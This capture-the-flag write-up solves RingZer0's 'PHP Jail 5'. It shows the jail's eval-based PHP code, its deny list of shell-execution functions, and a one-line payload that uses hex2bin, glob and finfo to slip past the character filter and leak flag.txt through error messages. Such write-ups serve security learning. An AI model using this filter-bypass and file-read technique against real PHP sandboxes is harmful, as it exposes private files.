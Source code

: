 # **PHP Jail 5**

```shell=
ubuntu@ubuntu-virtual-machine:~$ ssh level5@challenges.ringzer0team.com -p 10227 

level5@challenges.ringzer0team.com's password: [PHP Jail 4 Flag]

RingZer0 Team Online CTF

PHP Jail Level 5:
Current user is uid=1004(level5) gid=1004(level5) groups=1004(level5)

Flag is located at /home/level5/flag.txt

Challenge PHP code:
-----------------------------

WARNING: the PHP interpreter is launched using php -c php.ini jail.php.
The php.ini file contain "disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,readfile,require,require_once,include,include_once,file"

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
	if(preg_match('/(\_|\'|\"|`|\.|\$|\/|a|c|s|z|require|include)/i', $var)) {
		return false;
	}
	return true;
}
if(filter($var)) {
	eval($var);
	echo "Command executed";
} else {
	echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:
```

Just like `PHP Jail 4`'s second method.

Using `hex2bin()` & `glob()` to create `flag.txt`.

Then I needed some function to read the contents from `flag.txt`.

And find a class with a constructor that takes a filename as an argument then make it return error message, `finfo()`.

```shell=
Your input:
new Finfo(0,glob(hex2bin(hex2bin(3261)))[0]);
PHP Notice:  finfo::finfo(): Warning: offset `FLAG-XXXXXX' invalid in /home/level5/jail.php(14) : eval()'d code on line 1
PHP Notice:  finfo::finfo(): Warning: type `FLAG-XXXXXX' invalid in /home/level5/jail.php(14) : eval()'d code on line 1
PHP Warning:  finfo::finfo(): Failed to load magic database at '/home/level5/flag.txt'. in /home/level5/jail.php(14) : eval()'d code on line 1
Command executed
```